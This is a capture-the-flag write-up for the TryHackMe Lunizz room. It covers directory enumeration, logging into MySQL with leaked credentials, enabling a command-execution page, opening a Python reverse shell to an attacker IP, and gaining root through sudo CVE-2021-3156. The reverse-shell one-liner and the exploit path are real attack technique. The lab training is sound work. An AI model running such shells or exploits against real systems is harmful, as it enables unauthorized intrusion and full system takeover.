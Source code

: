 ```yaml
---
description: vulnerable sudo version.
---
```


# 21 - Lunizz CTF

Room Link --> [https://tryhackme.com/room/lunizzctfnd](https://tryhackme.com/room/lunizzctfnd)

### Enumeration

#### Gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.68.127 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 500 2>/dev/null

# output:
/instructions.txt
/whatever
/hidden
```
{% endcode %}

Navigating to "/whatever" gives us a command injection interface. But we can't execute any cmds.

Seems we found a credential at "/instructions.txt". Seems like a mysql login.

{% code lineNumbers="true" %}
```bash
runcheck:CTF_script_cave_changeme

# login mysql
mysql -h 10.10.68.127 -u runcheck -p

# enumerate the db.
show databases;
use <dbname>;
show tables;
select * from <tablename>
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>logged in</p></figcaption></figure>

We got the column name --> "run".

From the Table “runcheck”, we were able to find the name of the column which looks to be controlling the command executer as it’s value is 0 currently. We can update this value to 1 and check if we can exeute something.

```
update runcheck set run=1;
```

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we can execute cmds now.

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Gaining Rev shell.

Start a nc listener, then i used a python one-liner rev shell from payloadallthings to obtain shell.

{% code overflow="wrap" lineNumbers="true" %}
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.88.214",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

I used "linux-exploit-suggester.sh" to enumerate the machine.

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It seems like this version of `sudo` is vulnerable to the [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) vulnerability. This exploit abuses all sudo versions lower than version `1.8.31`. This vulnerability gives you `root` privileges right away! We should also check which Ubuntu version is installed by running: `lsb_release -a`.&#x20;

Follow the instructions here to get root.

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

